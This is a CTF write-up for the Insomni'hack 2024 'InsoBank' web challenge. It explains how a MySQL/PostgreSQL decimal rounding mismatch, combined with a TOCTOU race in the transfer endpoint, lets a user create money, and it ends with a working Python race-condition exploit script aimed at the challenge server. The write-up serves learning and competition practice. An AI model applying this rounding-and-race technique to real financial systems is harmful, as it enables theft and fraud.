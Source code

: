 ```yaml
---
title: Insomni'hack CTF Teaser 2024 - InsoBank Writeup
description: Exploit MySQL decimal rounding off and TOCTOU race condition in a Internet Banking website. 
date: 2024-01-21 19:15:00 +0530
categories: [CTF Writeup, Web]
tags: [web, race-condition]
---
```


## Challenge
![Challenge description - Vaulty](../images/insobank/challenge.png){:style="display:block; margin-left:auto; margin-right:auto"}  
We're launching a new online Bank today which is of course backed by crypto and AI which makes it better than any other banking system out there.

It's not fully featured yet as you can only transfer money within your own accounts, but you can already see how superior it is to other systems:

http://91.92.201.197:3000/

Source: [here](https://static.insomnihack.ch/media/insobank-8ebe9b5ceef733e4eaa6d32f2707381a111b16aee63980b4583ab1e44d964d8d_BLFUOJ6.tgz)

## TL;DR
- We are given an internet banking website with option to only transfer funds within own accounts. The goal is to increase balance from 10 CHF to 13.37 CHF.
- Two databases (MySQL and Postgresql) are used to store transactions. MySQL schema rounds-off amount to 2 decimal places, but postgresql does not.
- We can create transactions such that the sum of amount exceeds source account balance by exploiting the rounding off.
- For this to work, we need transactions with dupclicate recipients. We exploit a TOCTOU race condition to bypass duplicate check.

## Finding the vulnerabilities

### 1. Recon 
We are provided an internet banking website with option to only transfer funds within own accounts. There exists 3 accounts namely Checkings, Savings and Current. Initially we have 10.0 CHF (Swiss Franc) in checkings account. We can create transaction to send funds between these 3 accounts. However, to obtain flag, we need to have a balance of 13.37 CHF in single account. In other words, we need to create free money.

### 2. Decimal round-off 
The challenge uses MySQL to store all user details and transactions. But, pending transactions alone are duplicated into a seperate Postgresql database. From looking at the schema of these two, we can find that the column type of amount is different.  
- MySQL has **DECIMAL(10, 2)** 
- Postgresql has **DECIMAL**  

This means we can exploit the fact that MySQL rounds-off amount to 2 decimal places, whereas postgresql stores exact amount. Transaction validation is performed on MySQL when trasaction is finalized using `/validate` endpoint. However, actual execution happens using Postgresql amount in a periodic script. Also note that one transaction batch can contain multiple transactions.  
  
We can create a transaction batch like below (balance in Checking account : 10 CHF),  
<table>
<thead>
  <tr>
    <th>Source</th>
    <th>Recipient</th>
    <th>Amount</th>
  </tr>
</thead>
<tbody>
  <tr>
    <td>Checkings</td>
    <td>Current</td>
    <td>10</td>
  </tr>
  <tr>
    <td>Checkings</td>
    <td>Savings</td>
    <td>0.004</td>
  </tr>
  <tr>
    <td>Checkings</td>
    <td>Savings</td>
    <td>0.004</td>
  </tr>
</tbody>
</table>

- Validation on MySQL (rounded off to 2 decimal):  
    - 10.00 + 0.00 + 0.00 = 10 (Sufficient funds in source account)  
- Execution using Postgresql: 
    - 10.00 + 0.004 + 0.004 = 10.008  
- When 10.008 is stored in MySQL, it becomes 10.01 CHF  

Now we repeat this until we have 13.37 CHF. However there is a catch. We cannot create above transaction as `/transfer` endpoints checks that two transactions in same batch cannot have same destination account. In our example, we have two entries with savings account as recipient.  
![/transfer check](../images/insobank/transfer-check.png)

### 3. TOCTOU race condition
The Flask app is running in a multi-threaded WSGI server. There is a race condition TOCTOU vulnerability in `/transfer` endpoint. The check is implemented as below,
```none
1. 'Select count(*)' query to fetch if same recipient already added in this batch  
2. if exists, return error "You can have only one transfer per recipent in a batch"  
3. Add transaction to batch
```
This logic is not thread safe and vulnerable to Time of check, time of use (TOCTOU) attack. We can create multiple duplicate requests to server. As all are executed in parallel, We hope multiple requests will cross the select query (step 1) at same time, before any transaction is added to batch. This way, we can bypass this check and add duplicate recipients.

## Exploit 

In order to create parallel request to trigger race condition, Burp suite needed professional license. I used [this tool](https://github.com/nccgroup/requests-racer) instead.

```python
from requests_racer import SynchronizedSession

s = SynchronizedSession()

# Update JWT after creating a fresh login session
burp0_headers = {"Authorization": "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTcwNTgyNjg5NSwianRpIjoiY2UzYTBlMjktNjE4OS00ZTE0LTgzM2YtNDdjNzE4ZjFkY2M5IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6NDg2OSwibmJmIjoxNzA1ODI2ODk1LCJjc3JmIjoiMjYzNDk0YmEtODgyZS00ODMzLWJmZDMtOTdhNzZiYjMzNzRkIiwiZXhwIjoxNzA1ODI3Nzk1fQ.biCkHQ-6U3aDWGJ1A1h-4GWK9wz6exEOLFzQ8aym1_g", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.216 Safari/537.36", "Accept": "*/*", "Origin": "http://91.92.201.197:3000", "Referer": "http://91.92.201.197:3000/", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}

for n in range(20):

    burp0_url = "http://91.92.201.197:5000/batches"
    resp1 = s.get(burp0_url, headers=burp0_headers)
    s.finish_all()
    old_batches = [o['batchid'] for o in resp1.json()]

    burp0_url = "http://91.92.201.197:5000/batch/new"
    burp0_json={"senderid": "dc9d1d35-ef4d-4406-957c-93acc318d435"}
    resp = s.post(burp0_url, headers=burp0_headers, json=burp0_json)
    s.finish_all()

    burp0_url = "http://91.92.201.197:5000/batches"
    resp1 = s.get(burp0_url, headers=burp0_headers)
    s.finish_all()
    new_batchid = [o['batchid'] for o in resp1.json() if o['batchid'] not in old_batches][0]

    print(f"New batch: {new_batchid}")

    s = SynchronizedSession(num_threads=20)

    burp0_url = "http://91.92.201.197:5000/transfer"
    burp0_json={"amount": "0.004", "batchid": new_batchid, "recipient": "4f55f4f1-9fb5-48a7-af32-d910b46ca8ca"}
    resps = []
    for i in range(20):
        resps.append(s.post(burp0_url, headers=burp0_headers, json=burp0_json))
    s.finish_all()
    print([resp.text for resp in resps])

    burp0_url = "http://91.92.201.197:5000/validate"
    burp0_json={"batchid": new_batchid}
    s.post(burp0_url, headers=burp0_headers, json=burp0_json)
    s.finish_all()
```
